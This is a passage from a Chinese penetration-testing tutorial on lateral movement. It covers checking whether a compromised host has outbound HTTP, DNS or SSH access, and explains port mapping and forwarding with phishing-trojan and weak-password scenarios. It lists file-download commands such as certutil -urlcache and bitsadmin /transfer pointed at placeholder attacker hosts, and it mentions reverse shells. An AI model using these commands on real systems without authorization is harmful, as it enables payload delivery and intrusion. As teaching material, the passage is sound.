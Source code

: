 这种情况就其实就属于能出网了，不需要网络隧道，只需要攻击者本地监听防火墙允许出网的端口，让目标主机将shell反弹到该端口即可。

#### (3) 特定的应用层协议出网

（比如HTTP、SSH、DNS等应用层协议）

网络防火墙能识别应用层的协议，放行允许出网的协议，比如HTTP、SSH、DNS、RDP等应用层协议

判断方式-HTTP/HTTPS：(下面的URL中的http均可替换成https)

```
linux:
curl http://ip or domain
wget http://ip or domain

Windows: 
start http://www.baidu.com
explorer http://www.baidu.com
certutil.exe -urlcache -split -f http://ip:port/xxx
bitsadmin /transfer 任务名 http://ip:port/xxx 绝对路径\文件名
```

判断DNS出网

```
linux：
dig @8.8.8.8 www.baidu.com
nslookup www.baidu.com 8.8.8.8

windows：
nslookup www.baidu.com 8.8.8.8
```

判断SSH出网

```
netstat -ntlp |grep ssh
ssh -p 22 user@ip   #试一下就知道了
```



### 1.3 端口映射和端口转发

#### (1) 端口映射

端口映射的使用，以下图为例，这是一个在渗透测试中，比较常见的场景：

一个hacker通过扫描暴露到公网中的主机A ，主机A开放了一些敏感端口，而且是弱口令，导致主机A被hacker完全控制。
接着hacker就想往公司内网中渗透，通过在主机A监控流量或者扫描的方式，发现了主机B，但是主机B只能由主机A进行访问，开放了80端口，而且没有公网IP。
如果hacker想直接访问主机B的 80端口，对上面的Web服务进行继续渗透，这就需要进行端口映射，让hacker可以远程连接到80端口。

从上图场景中看，端口映射是将内网主机B的80端口映射到了具有公网IP的主机A上，本质上是将一个本来无法访问的端口映射到可以访问的IP上了

#### (2) 端口转发

端口转发又是另外一个场景，在渗透测试中，也很常见。如下图所示：

hacker位于主机A，主机A可能是个人电脑，也可能是hacker控制的主机。
hacker通过发送恶意邮件的方式给主机B，主机B的用户点开邮件，运行恶意木马导致主机B被感染，就成了我们俗称的“肉鸡”。虽然已经有木马运行在主机B中，但是由于主机B不在公网中，hacker无法访问到主机B。
主机B运行着ssh服务，开放着22端口，hacker如果想在主机A上直接连接主机B的22端口，执行shell命令，这就需要端口转发。
